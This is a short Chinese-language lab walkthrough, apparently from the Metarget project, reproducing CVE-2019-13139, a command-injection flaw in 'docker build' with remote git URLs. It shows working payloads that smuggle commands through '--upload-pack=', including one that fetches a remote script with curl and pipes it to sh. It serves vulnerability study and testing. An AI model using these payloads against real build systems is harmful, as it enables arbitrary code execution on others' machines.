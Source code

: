 # Docker构建代码执行（CVE-2019-13139）

## 场景介绍

docker build命令构建本地镜像时，支持使用远程url参数作为构建环境，并且这个远程构建环境可以是一个git仓库。

在docker 18.9.4之前版本中，docker build过程中对remoteUrl解析存在缺陷，导致了remoteUrl中的部分字符串会被作为命令执行。

## 环境搭建

漏洞环境准备：

```
./metarget cnv install cve-2019-13139
```

## 漏洞复现

执行相关利用命令:

```
root@cloudplay:~/metarget$ docker build "git@g.com/a/b#--upload-pack=touch 13139.txt;:" #执行结果报错但不影响
root@cloudplay:~/metarget$ ls | grep 13139
13139.txt
root@cloudplay:~/metarget$ docker build "git@github.com/a/b#--upload-pack=curl -s example.com/poc.sh|sh;#:"    #下载远程shell文件并执行
```

## 参考文献

https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/
